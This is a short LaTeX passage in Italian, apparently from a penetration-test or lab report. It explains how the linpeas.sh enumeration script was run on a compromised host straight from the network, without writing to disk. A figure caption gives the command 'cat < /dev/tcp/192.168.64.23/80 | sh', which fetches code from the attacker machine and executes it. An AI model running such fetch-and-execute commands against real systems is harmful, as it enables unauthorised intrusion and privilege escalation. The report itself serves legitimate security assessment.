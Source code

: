 \documentclass[a4paper, 12pt, oneside]{article}
\begin{document}
\subsubsection{Trasferire \texttt{linpeas.sh} sull'asset}

Talvolta, trasferire codice su un asset compromesso può essere complesso. Si è deciso quindi, per evitare problemi di sorta, di evitare qualsiasi scrittura sull'asset, optando per l'esecuzione dello script direttamente dalla rete, trasferendolo dalla macchina Kali mediante una \textbf{socket}. Questo è un processo che si articola in due fasi ed è simile a quello utilizzato di solito per l'apertura di una \textbf{reverse shell}:

\begin{enumerate}
    \item Apertura di un listener sulla macchina attaccante, come mostrato nella Figura 27. Si noti la connessione in entrata dall'asset.\footnote{La macchina Kali ora possiede l'indirizzo \texttt{192.168.64.23} e non più \texttt{192.168.64.15} a causa di una reinstallazione del sistema dovuta a problemi di natura tecnica.};
    \item Ricezione ed esecuzione dello script da parte dell'asset, come mostrato nella Figura 28.
\end{enumerate}

\begin{figure}[h!]
    \centering
    \includegraphics[width=\textwidth]{img/listener.png}
    \caption{Il listener sulla macchina Kali}
\end{figure}

\begin{figure}[h!]
    \centering
    \includegraphics[width=\textwidth]{img/linpeas.png}
    \caption{\texttt{cat < /dev/tcp/192.168.64.23/80 | sh}}
\end{figure}
\end{document}
